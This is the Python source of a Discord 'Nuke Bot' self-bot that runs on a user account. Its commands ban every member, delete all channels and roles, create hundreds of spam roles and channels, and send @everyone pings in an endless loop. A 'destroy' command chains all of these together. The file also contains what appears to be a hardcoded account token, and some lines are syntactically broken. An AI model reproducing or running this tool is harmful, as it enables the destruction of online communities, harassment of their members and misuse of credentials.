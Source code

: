 import discord
from discord.ext import commands
from aiohttp import request
import random
import time
import os
import numpy
import string
import json

with open('config.json') as f:
    config = json.load(f)
version = "2"
token = config.get('ODU3MjM1ODE4NjE5MjA3Njgx.YNMpEQ.5F2wJbrKRO4CLMEUH56kDqI9yME')
silent = config.get('silent')
prefix = config.get(':')
JumboPic = "https://upload.wikimedia.org/wikipedia/commons/thumb/a/ae/Nuclear_symbol.svg/1200px-Nuclear_symbol.svg.png"
BLUE, RED, WHITE, YELLOW, MAGENTA, GREEN, END = '\33[1;94m', '\033[1;91m', '\33[1;97m', '\33[1;93m', '\033[1;35m', '\033[1;32m', '\033[0m'
helplog = ('''
[Destory] Deletes everything
[Ban_all] Bans all members
[Role_delete] Deletes all roles
[Role_spam] Spams roles
[Channel_delete] Deletes all channels
[Channel_spam] Spams channels
''')
client = commands.Bot(command_prefix = f'{:}', self_bot=True)
main = (f''' 
███╗   ██╗██╗   ██╗██╗  ██╗███████╗    ██████╗  ██████╗ ████████╗
████╗  ██║██║   ██║██║ ██╔╝██╔════╝    ██╔══██╗██╔═══██╗╚══██╔══╝
██╔██╗ ██║██║   ██║█████╔╝ █████╗      ██████╔╝██║   ██║   ██║   
██║╚██╗██║██║   ██║██╔═██╗ ██╔══╝      ██╔══██╗██║   ██║   ██║   
██║ ╚████║╚██████╔╝██║  ██╗███████╗    ██████╔╝╚██████╔╝   ██║   
╚═╝  ╚═══╝ ╚═════╝ ╚═╝  ╚═╝╚══════╝    ╚═════╝  ╚═════╝    ╚═╝   
                                                                 
By Jammy#4613
Version : {version}
Silent mode : {silent}
Type {prefix}help for commands
''')
@client.event
async def on_ready():
    print(main)
    print("[!]Bot online")
client.remove_command('help')

@client.command()
async def help(ctx):
    await ctx.message.delete()
    embed = discord.Embed(color=ctx.author.color)
    embed.set_author(name="Nuke Bot / Made by YOUR DADDY#9999")
    embed.add_field(name="Destory", value="\nDeletes everything!", inline=False)
    embed.add_field(name="Ban_all", value="\nBans all users", inline=False)
    embed.add_field(name="Role_delete", value="\nDeletes all roles", inline=False)
    embed.add_field(name="Role_spam", value="\nSpams roles", inline=False)
    embed.add_field(name="Channel_delete", value="\nDeletes all channels", inline=False)
    embed.add_field(name="Channel_spam", value="\nDeletes all channels", inline=False)
    embed.add_field(name="Spam_ping", value="\nSpams a msg in all channels", inline=False)
    embed.add_field(name="Destroy_ping", value="\nSpams a msg in all channels infintly", inline=False)

    embed.set_thumbnail(url=JumboPic)
    if silent == 'off':
        await ctx.send(embed=embed)
    else:
        print(helplog)

@client.command()
async def channel_delete(ctx):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"`Deleting channels`")
    else:
        print("[!] Deleting channels")
    for channel in list(ctx.guild.channels):
        try:
            await channel.delete()    
        except:
            pass
@client.command()
async def spam_ping(ctx, *, message):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"`Spamming channels`")
    else:
        print("[!] Spamming channels")
    for channel in list(ctx.guild.channels):
        try:
            for _i in range(25):
                await channel.send(f"@everyone {message}")    
        except:
            pass
@client.command()
async def destroy_ping(ctx, *, message):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"`Spamming channels`")
    else:
        print("[!] Spamming channels")
    for channel in list(ctx.guild.channels):
        try:
            while True:
                for _i in range(25):
                    await channel.send(f"@everyone {message}")    
        except:
            pass
@client.command()
async def ban_all(ctx):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"`Banning all users`")
    else:
        print("[!] Banning all users")
    for user in list(ctx.guild.members):
        try:
            await user.ban()
        except:
            pass   
@client.command()
async def role_delete(ctx):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"`Deleting all roles`")
    else:
        print("[!] Deleting all roles")
    for role in list(ctx.guild.roles):
        try:
            await role.delete()
        except:
            pass
@client.command()
async def role_spam(ctx, *, name):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"`Spamming roles`")
    else:
        print("[!] Spamming roles")
    for _i in range(250):
        await ctx.guild.create_role(name=f"{name}")
@client.command()
async def channel_spam(ctx, *, name):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"`Spamming channels`")
    else:
        print("[!] Spamming channels")
    for _i in range(250):
        await ctx.guild.create_text_channel(name=f"{name}")

@client.event
async def on_command_error(ctx, error):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"Command not found!", delete_after=3)
    else:
        print("[!] Command not found")

@client.command()
async def destroy(ctx):
    await ctx.message.delete()
    if silent == 'off':
        await ctx.send(f"Destorying everything")
    else:
        print("[!] Destorying everything")
    for user in list(ctx.guild.members):
        try:
            await user.ban()
        except:
            pass 
    for channel in list(ctx.guild.channels):
        try:
            await channel.delete()    
        except:
            pass
    for role in list(ctx.guild.roles):
        try:
            await role.delete()
        except:
            pass
    for _i in range(250):
        await ctx.guild.create_role(name=f"Black-Water-op")
    for _i in range(250):
        await ctx.guild.create_text_channel(name=f"Black-Water-op")
    print("Attack finished")
client.run(token, bot=False)
